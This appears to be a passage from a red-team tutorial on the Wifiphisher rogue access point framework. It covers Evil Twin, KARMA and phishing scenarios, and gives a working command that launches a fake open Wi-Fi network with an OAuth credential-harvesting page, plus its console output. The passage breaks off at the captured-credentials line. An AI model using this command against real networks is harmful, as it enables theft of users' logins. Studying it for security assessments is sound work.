 [Wifiphisher](https://github.com/wifiphisher/wifiphisher) is a rogue access point framework designed for red team operations and Wi-Fi security assessments. It allows penetration testers to achieve a man-in-the-middle position against wireless clients by executing targeted Wi-Fi association attacks. Additionally, Wifiphisher facilitates customized web phishing campaigns to capture sensitive credentials, such as third-party login information or WPA/WPA2 Pre-Shared Keys, and can also be used to deliver malware to victim devices. By default, `wifiphisher` performs both Evil Twin and KARMA attacks.

Wifiphisher offers three primary phishing scenarios to target wireless clients effectively:

1. `OAuth Phishing`: Simulates a third-party login page to steal credentials, such as email or social media logins.
2. `Firmware Upgrade Phishing`: Mimics a firmware update page for routers or devices, tricking users into entering credentials.
3. `Plugin Update Phishing`: Displays a fake plugin update notification, prompting users to download malware and compromise the network.

These scenarios allow penetration testers to adapt their attacks based on the target's behavior and environment. In this section we will explore all the 3 phishing scenarios in detail.

### 1\. OAuth Phishing

This attack involves creating an `open` Wi-Fi network that mimics popular public Wi-Fi networks. It works by broadcasting beacon frames of known open Wi-Fi networks using entries from this [list](https://github.com/wifiphisher/wifiphisher/blob/bc4a077e090d59b065cf2c65b0ec1890b9eb4698/wifiphisher/data/wifiphisher-known-open-wlans).

When deployed, the attack targets devices with automatic association enabled, tricking them into connecting to the rogue network. This technique exploits users trust in familiar Wi-Fi network names, making it particularly effective in environments like `cafes`, `airports`, or `shopping centers`. Once connected, phishing scenario of the `OAuth Login` would be launched to harvest credentials.

To initiate the attack, execute the following command:

```shell
wifiphisher --essid "FREE WI-FI" -p oauth-login -kB -kN

Authorization required, but no authorization protocol specified
Authorization required, but no authorization protocol specified
[*] Starting Wifiphisher 1.4GIT ( https://wifiphisher.org ) at 2025-01-18 21:53
[+] Timezone detected. Setting channel range to 1-13
[+] Selecting wlan1 interface for the deauthentication attack
[+] Selecting wlan0 interface for creating the rogue Access Point
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:aa:45:fa
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:67:87:44
[*] Cleared leases, started DHCP, set up iptables
[+] Selecting OAuth Login Page template
[*] Starting the fake access point...
[*] Starting HTTP/HTTPS server at ports 8080, 443
[+] Show your support!
[+] Follow us: https://twitter.com/wifiphisher
[+] Like us: https://www.facebook.com/Wifiphisher
[+] Captured credentials:

```
